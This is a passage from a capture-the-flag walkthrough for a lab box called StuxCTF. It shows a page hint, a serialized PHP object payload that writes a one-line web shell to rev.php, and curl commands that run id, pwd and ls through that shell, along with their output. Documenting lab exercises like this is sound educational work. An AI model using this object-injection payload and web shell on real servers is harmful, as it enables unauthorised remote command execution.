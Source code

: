 ```bash
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />

```

<br>

<br>

<p>It is a php code.</p>



<p>O:4:"file":2:{s:4:"file";s:7:"rev.php";s:4:"data";s:28:"<?php system($_GET["cmd"])?>";}</p>


![image](https://github.com/user-attachments/assets/02004eb3-ee7e-477b-b064-953ac4430832)

<br>

<br>

![image](https://github.com/user-attachments/assets/fdc8a534-6517-42a8-a826-e1c0ffb7dbd4)

<br>

![image](https://github.com/user-attachments/assets/abe93ff2-d22b-4f15-bc50-275ea52b0502)


<br>

```bash
:~/StuxCTF# curl -s http://stuxctf.thm//4731502893726489553913132817668435073257703
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=pwd"
/var/www/html/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls"
assets
index.php
rev.php
shell.php
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls /home"
grecia
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls /home/grecia"
user.txt
```